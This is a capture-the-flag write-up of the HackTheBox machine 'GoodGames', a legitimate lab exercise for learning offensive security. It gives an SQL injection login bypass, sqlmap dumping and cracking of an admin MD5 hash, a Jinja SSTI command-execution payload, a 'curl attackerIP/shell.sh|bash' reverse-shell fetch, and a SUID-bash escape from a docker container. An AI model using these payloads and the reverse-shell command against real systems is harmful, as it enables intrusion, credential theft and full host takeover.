 ```yaml
---
title: "HackTheBox - GoodGames"
author: Nasrallah
description: ""
date: 2023-05-01 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sqli, ssti, crack, docker, sqlmap]
img_path: /assets/img/hackthebox/machines/goodgames
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [GoodGames](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). 

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.130
Host is up (0.32s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-title: GoodGames | Community and Store
Service Info: Host: goodgames.htb
```

We found werkzeug web server running on port 80 with the hostname `goodgames.htb`, let's add it to `/etc/hosts`

### Web

Let's navigate to `goodgames.htb`

![](1.png)

We find a website related to video games. After navigating throught the website, we find a login form.

![](2.png)

Tried some default credentials but it didn't work, then tried sql injection and managed to login as admin with the payload `' or 1=1 -- -` after we proxy the traffic through burp.

![](3.png)

We get redirected to profile page and find a new link.

![](4.png)

The link goes to `internal-administration.goodgames.htb`, so we need to add it to `/etc/hosts`.

![](5.png)

We got a login page, and again i tried default credential and sql injection but neither worked this time.

### sqlmap

Since the first login form was vulnerable to sql injection, let's go to burp and copy the login request to a file.

```text
POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://goodgames.htb
DNT: 1
Connection: close
Referer: http://goodgames.htb/
Upgrade-Insecure-Requests: 1

email=asdf&password=asdf
```

Now we feed the file to `sqlmap` and let it does it's magic.

```bash
sqlmap -r login.req --batch
```

The injection is time based so this might take a long time.

After some time, we find a database called `main` and a table called `user`, let's dump the user table

```terminal
$ sqlmap -r login.req --batch -D main -T user --dump
[...]
Database: main
Table: user
[1 entry]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+
```

After some time, we manage to get the admin's hash. The hash looks like MD5 so we can use [crackstation](https://crackstation.net/) to crack it.

![](12.png)

We got the password, now let's login to flask volt with the credentials `admin:superadministrator`

![](6.png)

## **Foothold**

Going to `Settings` page, we find a form where we can change our name.

![](7.png)

The username we submitted got displayed back to us.

Since the the website uses python, one of the vulnerabilities to check for is `SSTI`, so let's change the name to `{{7*7}}`

![](8.png)

The website is vulnerable, now let's try executing command using payloads from [PayloadsAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread).

```python
\{\{ self.\_\_init\_\_.\_\_globals\_\_.\_\_builtins\_\_.\_\_import\_\_('os').popen('id').read() \}\}
```

![](9.png)

We run the command `id` and we got back root. Now let's get a reverse shell.

Instead of `id` i run `curl attackerIP/shell.sh|bash`, this command requests a the file `shell.sh` which has a reverse shell code `/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1` then pips it ot `bash` to get it executed.

![](10.png)

And we got a shell

## **Privilege Escalation**

We find ourselves in a docker container, let's check the network interfaces and ip addresses.

```terminal
root@3a453ab39d3d:/backend/project# ip a                                                                                                                      
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000                                                                   
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                      
    inet 127.0.0.1/8 scope host lo                                             
       valid_lft forever preferred_lft forever                                 
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default                                                                  
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0                                                                                         
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0                    
       valid_lft forever preferred_lft forever 
```

Our ip is `172.19.0.2`, this means the host is `172.19.0.1`.

I uploaded a static version of `nmap` and scanned the host.

```terminal
root@3a453ab39d3d:~# ./nmap 172.19.0.1                                          

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-06 11:56 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.19.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000028s latency).
Not shown: 1205 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:28:C6:BF:0E (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 14.60 seconds
```

We found two open ports, 22 running ssh and 80 which is http web server.

On the home directory we find user `augustus` but can't be found in /etc/passwd, so i tried to ssh to `172.19.0.1` as that user with the password we found earlier.


```terminal
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$
```

It worked! Now to get root is pretty easy, we copy `bash` to our current directory, exit out of ssh to get back to docker, and as root in the docker container, we change to ownership of `bash` to root and give it suid permission. Then we ssh back and run `bash -p`.

```terminal
augustus@GoodGames:~$ cp /bin/bash .
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/home/augustus# chown root:root bash
root@3a453ab39d3d:/home/augustus# chmod +s bash
```

We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).